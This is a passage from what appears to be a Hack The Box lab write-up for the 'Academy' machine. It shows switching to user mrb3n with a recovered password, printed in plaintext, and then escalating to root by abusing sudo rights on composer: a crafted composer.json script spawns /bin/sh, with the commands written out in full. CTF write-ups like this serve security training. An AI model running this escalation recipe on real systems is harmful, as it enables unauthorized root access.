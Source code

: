 ``` bash
su -
```

Unfortunately, this password does not work for root. Based on the text of the password, and the fact that we know there is a `mrb3n` user on the machine, it may be worth trying to us this password to switch to that account.

``` bash
su mrb3n
```

![](/assets/images/htb-academy/26_academy_su.png)

##### mrb3n Credentials
```
User: mrb3n
Pass: mrb3n_Ac@d3my!
```

After logging in as mrb3n and running a `sudo -l` we find that this account can sudo the `composer` binary. Quickly checking [GTFObins](https://gtfobins.github.io/gtfobins/composer/#sudo) we find that the ability to `sudo` the `composer` binary can be exploited to gain access as the root user.

As explained there, we will run the following three commands.

``` bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
![](/assets/images/htb-academy/27_academy_root_flag.png)
